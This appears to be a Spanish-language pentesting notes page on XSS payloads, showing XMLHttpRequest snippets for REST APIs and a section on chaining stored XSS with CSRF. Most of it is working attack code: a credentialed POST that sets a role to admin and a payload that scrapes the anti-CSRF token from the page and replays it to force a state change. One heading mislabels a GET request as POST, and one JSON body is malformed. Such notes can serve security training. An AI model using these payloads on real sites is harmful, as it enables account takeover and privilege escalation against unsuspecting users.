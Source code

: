Peticion POST simple cuando se trata de un APIRest:

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

Peticion GET simple cuando se trata de un APIRest:

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```

Peticion POST con credenciales cuando se trata de un APIRest:

```javascript
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```

## CHAINING XSS + CSRF

Las solicitudes maliciosas entre sitios están fuera de la ecuación debido a las protecciones del mismo origen/mismo sitio. Todavía podemos realizar un ataque CSRF a través de la vulnerabilidad XSS almacenada que existe. Específicamente, aprovecharemos la vulnerabilidad XSS almacenada para emitir una solicitud de cambio de estado contra la aplicación web. ¡Una solicitud a través de XSS omitirá cualquier protección del mismo origen/mismo sitio ya que se derivará del mismo dominio!

Payload XSS:

```javascript
<script>
//primera peticion para obtener el CSRF token
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
	//recuperacion del CSRF Token
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];

	//segunda peticion para realizar el Ataque CSRF pasando el Anti CSRF-Token
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
